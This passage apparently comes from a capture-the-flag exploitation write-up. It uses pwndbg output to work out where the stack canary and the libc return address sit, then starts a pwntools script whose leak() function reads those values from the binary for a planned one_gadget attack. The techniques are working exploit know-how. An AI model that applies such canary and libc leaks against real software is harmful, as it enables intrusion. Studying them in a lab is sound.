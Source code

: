 We can use the stack canary that is located at address `0x7fffffffdc58` which is located after our buffer on the stack (0x7fffffffdc58 - 0x7fffffffdbf6 = 98).

We have 98 bytes of offset between the beginning of our canary and our `10 bytes` we read out of `/dev/urandom`

Since we're dealing with nibbles, we are going to need to split our bytes in offset by 2 which give us a final offset of `49`

We are also going to need to leak something from libc, something we know that is definitely on the stack is the return address back into `__libc_start_main` from the `main` function. Searching for it tells us that it is at the stack address `0x7fffffffdc88` on the stack.

```
pwndbg> bt
#0  0x0000555555400d80 in ?? ()
#1  0x0000555555400dfe in ?? ()
#2  0x00007ffff7daafd0 in __libc_start_call_main (main=main@entry=0x555555400dcf, argc=argc@entry=1, argv=argv@entry=0x7fffffffdda8) at ../sysdeps/nptl/libc_start_call_main.h:58
#3  0x00007ffff7dab07d in __libc_start_main_impl (main=0x555555400dcf, argc=1, argv=0x7fffffffdda8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdd98) at ../csu/libc-start.c:409
#4  0x00005555554009ea in ?? ()

pwndbg> search -t qword 0x00007ffff7daafd0
[stack]         0x7fffffffdc88 0x7ffff7daafd0
```

We can now calculate the offset between the return address of `__libc_start_main` and our 10 bytes read from `/dev/urandom` the same way we did with canaries (0x7fffffffdc88 - 0x7fffffffdbf6 = 146).

Once again since we're dealing with `16 bits unsigned integer` we are going to need to split this value by 2, which will give us the final offset of `73`.

Now that we leak our canary we should be able to determine the offset of rip where our program crashes.

## Writing Exploit
With all the knowledge we've gained on this binary so far we should be ready to write an exploit script.

```py
from pwn import *
import ctypes
from one_gadget import generate_one_gadget

charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
stack_canary_offset = 49 # This is the offset we've obtained for the canary we choosed on the stack
stack___libc_start_main_offset = 73 # Since we need to leak something from libc we can leak the return address back into __libc_start_main from the main function
hashes = {} # We compute every possible hashes (65535) and add them to this array

# This function will leak the value at our offset argument.
def leak(p, offset, toggle=True):
    p.recvuntil(b"> ")
    p.sendline(b"id " + str(offset).encode())
    p.recvuntil(b"> ")
    p.sendline(b"create")
    p.recvuntil(b"Your key: ")
    key = p.recvline().strip().decode()
    value = hashes[key]
    # correct for the one and zero collision.
    if value == 1 and toggle:
        value = 0
    
    log.info(f"Offset {offset}: {key} ({hex(value)})")
    return value
```